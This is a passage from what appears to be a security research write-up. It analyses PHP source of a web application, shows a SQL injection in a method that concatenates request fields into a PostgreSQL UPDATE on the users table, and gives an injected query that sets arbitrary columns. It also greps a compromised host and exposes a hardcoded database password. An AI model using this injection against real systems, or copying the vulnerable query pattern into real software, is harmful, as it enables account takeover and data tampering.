 
```php
//...
    public function getTermsAction($request): array
    {
        return [
            'data' => file_exists('/opt/webapp/data/terms/terms.html') ? file_get_contents('/opt/webapp/data/terms/terms.html') : '',
            'hash' => file_exists('/opt/webapp/data/terms/terms.html') ? md5_file('/opt/webapp/data/terms/terms.html') : '',
        ];
    }
//...
```
Nothing interesting. But... and here comes the plot twist: just below there is a method called `setTermAction` that is driving a DeLorean to bring back from the past a beautiful SQL injection:
```php
    public function setTermsHashAction($request): array
    {
        $resource = self::initPgConnection();

        if (!$request['userId']) {
            throw new \Exception('update term hash failed. UserId not specified');
        }

        $query = '
          UPDATE users 
          SET term_hash = \'' . ($request['hash'] ?? '') . '\'
          WHERE user_id = ' . $request['userId'] . ';
        ';

        $res = pg_query($resource, $query);

        if ($res === false) {
            throw new \Exception('update term hash failed.' . pg_last_error($resource));
        }

        @exec('sh /opt/webapp/shell/sync_users.sh');

        return [
            'status' => true,
            'hash'   => file_exists('/opt/webapp/data/terms/terms.html') ? md5_file('/opt/webapp/data/terms/terms.html') : '',
        ];
    }
```
Because I was not sure if I could update two columns at same time in postgresql, I had to ask to my friend [@xassiz](https://twitter.com/xassiz) and he confirmed it was possible. So we have the next injection:
```sql
UPDATE users SET term_hash = 'X',arbitrary_column='arbitrary_value' WHERE user_id = 'Y';
```
Is there any column worth to be updated? (well... the table is called `users` so I guess you know how this will end, but not spoilers). Let's find how to connect to the database:
```bash
[root@pwned webapp]# grep -ri psql | grep sh
ccup:	/usr/bin/psql -p $POSTGRES_PORT -U postgres postgres -c "ALTER USER \"$DB_NAME\" WITH PASSWORD 'dashboard';" > /dev/null
ccup:		/usr/bin/psql -p $POSTGRES_PORT -U postgres postgres -c "CREATE USER \"$DB_NAME\" WITH PASSWORD 'dashboard';" > /dev/null
ccup:	/usr/bin/psql -t -p $POSTGRES_PORT -U postgres postgres -c "SELECT datname FROM pg_database WHERE datistemplate = false AND datname LIKE 'dashboard%';"
ccup:	/usr/bin/psql -p $POSTGRES_PORT -U postgres postgres -c "ALTER USER \"$DB_NAME\" WITH PASSWORD 'dashboard';"
```